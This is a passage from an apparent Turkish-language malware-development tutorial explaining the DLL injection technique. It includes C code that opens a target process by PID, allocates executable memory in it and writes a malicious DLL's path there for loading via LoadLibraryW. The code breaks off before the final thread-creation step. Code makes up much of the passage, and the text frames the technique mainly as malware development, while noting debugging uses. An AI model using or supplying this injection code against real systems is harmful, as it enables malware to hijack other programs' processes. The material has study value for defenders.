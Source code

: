Şimdi ise tekniğimizi inceleyelim.


## **DLL Injection**

Artık temelde bir DLL'in ne olduğunu ve basitçe kodlamasını biliyoruz. 

DLL Injection tekniği, bir process içerisine zararlı DLL'in enjekte edilmesi içerir. Tıpkı önceki konumuzda yaptığımız gibi zararlı shellcode'u enjekte etmek gibi düşünün. 

Yüklenen zararlı DLL ile artık amacınız ne ise ona göre Process'in davranışını değiştirebilirsiniz. Kulağada ne kadar da sadece Malware Development için kullanılan bir teknik gibi algılansa da debugging için amaçlarla da kullanıldığını burada vurgulamak isterim.

Hatırlarsanız önceki konumuzda elimizdeki shellcode'u hedef process'e gömüyorduk bellek aracılığıyla. Dediğim gibi bu yöntemi de bunun gibi düşünebilirsiniz. Hedef Process belleğine DLL'imizin yolunu gömeceğiz ve ardından Process'in LoadLibraryW çalıştırmasını sağlayarak zararlı DLL'i yüklemiş olacak.

## Kod

```c
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[]) {
	DWORD PID = 0;
	HANDLE HandleProcess = NULL;
	HANDLE HandleThread = NULL;
	LPVOID RemoteBuffer = NULL;
	LPTHREAD_START_ROUTINE LoadLibraryAddress = NULL;
	wchar_t DllPath[MAX_PATH] = L"C:\\Users\\bekoo\\bekoo.dll";
	DWORD DllPathSize = sizeof(DllPath);
	if (argc < 2) {
		printf("Usage: %s <PID>\n", argv[0]);
		return 1;
	}
	PID = atoi(argv[1]);
	printf("Injecting DLL into PID %d\n", PID);

	LoadLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");
	if (LoadLibraryAddress == NULL) {
		printf("Failed to get LoadLibraryW address\n");
		return 1;
	}
	printf("LoadLibraryW address: 0x%p\n", LoadLibraryAddress);

	HandleProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (HandleProcess == NULL) {
		printf("Failed to open process\n");
		return 1;
	}

	RemoteBuffer = VirtualAllocEx(HandleProcess, NULL, DllPathSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (RemoteBuffer == NULL) {
		printf("Failed to allocate memory in remote process\n");
		return 1;
	}

	if (!WriteProcessMemory(HandleProcess, RemoteBuffer, DllPath, DllPathSize, NULL)) {
		printf("Failed to write DLL path to remote process\n");
		return 1;
	}
```